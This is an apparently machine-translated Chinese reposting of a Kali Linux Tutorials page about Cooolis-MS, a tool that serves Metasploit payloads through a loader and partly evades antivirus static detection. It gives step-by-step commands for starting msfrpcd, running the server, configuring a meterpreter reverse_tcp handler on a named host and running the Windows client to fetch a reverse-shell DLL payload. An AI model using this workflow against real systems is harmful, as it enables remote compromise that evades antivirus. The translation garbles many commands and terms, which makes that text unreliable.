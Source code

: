 # Cooolis-MS:支持 Metasploit 框架 RPC 的服务器

> 原文：<https://kalilinuxtutorials.com/cooolis-ms/>

[![Cooolis-MS : A Server That Supports The Metasploit Framework RPC](img//cf9eb0fd0c245d6baf1203f046665c79.png "Cooolis-MS : A Server That Supports The Metasploit Framework RPC")](https://1.bp.blogspot.com/-fCjdyTNtUwI/X3W9OwfD30I/AAAAAAAAHtk/M3a_r4fi1_UqXhEJiZ0TRKhoamGvqtPFwCLcBGAsYHQ/s728/Cooolis-ms%25281%2529.png)

**Cooolis-ms** 是一个支持 Metasploit 框架 RPC 的服务器。它用于 Shellcode 和 PE loader 工作，在一定程度上绕过杀毒软件的静态检测，并允许 Cooolis-ms 服务器与 Metasploit 服务器分开执行。

加载程序执行过程:

*   连接到 cool is-服务器
*   cool is-服务器连接到 Metasploit RPC 服务器
*   检索有效负载并将其发送回加载器

**项目优势**

*   小容量(< 600KB)
*   支持所有 Metasploit 负载
*   简单参数
*   单行
*   支持分离

**如何安装？**

*   **选择 1 >码头工人调配(推荐)**

[**点击这里**](https://www.youtube.com/watch?v=StTqXEQ2l-Y&feature=youtu.be&t=35s) 观看 YouTube 演示。

**git 克隆 https://github . com/rvn 0 xsy/cooolis-ms . git
$ CD cooolis-ms/docker
$ docker-合成 up -d**

默认监听端口:8899

*   **选择二>源代码部署**

**$ git 克隆 https://github.com/Rvn0xsy/Cooolis-ms.git
$ CD COO olis-ms
$ pip 3 install-r requirements . txt
$ python 3 server . py-h**

**如何使用？**

**如果使用 Docker 进行部署，请直接从第三步开始。**

假设这是我的 VPS: 10.20.56.41

*   **第一步，启动 Metasploit RPC 服务器**
    *   **启动 Metasploit RPC 服务器:**

**$ msfrpcd-U MSF-P MSF-U/API/1.0/-a 127 . 0 . 0 . 1**

![](img//1a87b898266a8d42277be2e4e2400478.png)

*   **第二步，启动 Cooolis-ms 服务器**

让它连接到 RPC 并监听发送有效负载的端口:

**$ python 3 server . py-U MSF-P MSF-H 127 . 0 . 0 . 1-P 55553-S-v-l 8899-S 10 . 20 . 56 . 41**

![](img//14cd2abaef51cf1c448cc08d95e7dea8.png)

*   **第三步，配置 Metasploit 监听器**

**msf5 >使用 exploit/multi/handler
ms F5>设置有效载荷窗口/meter preter/reverse _ TCP
ms F5>设置 LHOST 10.20.56.41
msf5 >设置 LPORT 8876
ms F5>exploit-j**

![](img//7a5d575f501345734b6afe2b1eb7c512.png)

*   **第四步，启动 Cooolis-ms 客户端**

**Cooolis-ms.exe-P windows/meter preter/reverse _ TCP-o LHOST = 10 . 20 . 56 . 41，LPORT=8876，Format=dll -H 10.20.56.41 -P**

![](img//f012127df30600c0faadfa8c4f1999c3.png)

**不是** e

*   Cooolis-ms.exe 的`-o`参数应该对应 msf 配置。
*   由于这个项目依赖于开源项目 [MemoryModule](https://github.com/fancycode/MemoryModule) ，所以只能支持 DLL 格式的 PAYLOAD。需要在-o 参数后面加上`Format=dll`。

[**Download**](https://github.com/Rvn0xsy/Cooolis-ms)